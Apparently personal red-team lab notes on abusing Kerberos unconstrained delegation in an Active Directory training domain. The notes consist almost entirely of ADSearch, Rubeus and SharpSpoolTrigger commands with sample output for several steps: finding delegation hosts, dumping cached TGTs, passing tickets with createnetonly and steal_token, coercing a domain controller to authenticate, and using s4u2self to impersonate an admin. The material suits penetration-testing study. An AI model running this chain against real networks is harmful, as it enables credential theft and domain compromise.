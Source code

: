 # Get machines with unconstrained delegation in the Domain

```bash
execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

---

# After compromising a machine on the list we can wait for a privileged account to interact with it to get the tgt cached

```bash
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

---

# If a TGT is cached we can simply dump the ticket and pass the ticket to a proccess created by us

```bash
C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540

```

---

---

# We can also force computer accounts to authenticate remotely to grab their TGT and use s4U2self abuse

```bash
# Start listening with Rubeus on Web
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
# To stop monitoring use
jobs
jobkill <id>

# Use SharpSpoolTriget
execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io

# We should see a ticket comming by on web
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

    <ticket here>

# To use this machine ticket we need to use a s4u2self technique
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:nlamb /self /altservice:cifs/dc-2.dev.cyberbotic.io /user:dc-2$ /ticket:doIFuj[...]lDLklP /nowrap
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFyD[...]MuaW8=
steal_token 2664


```
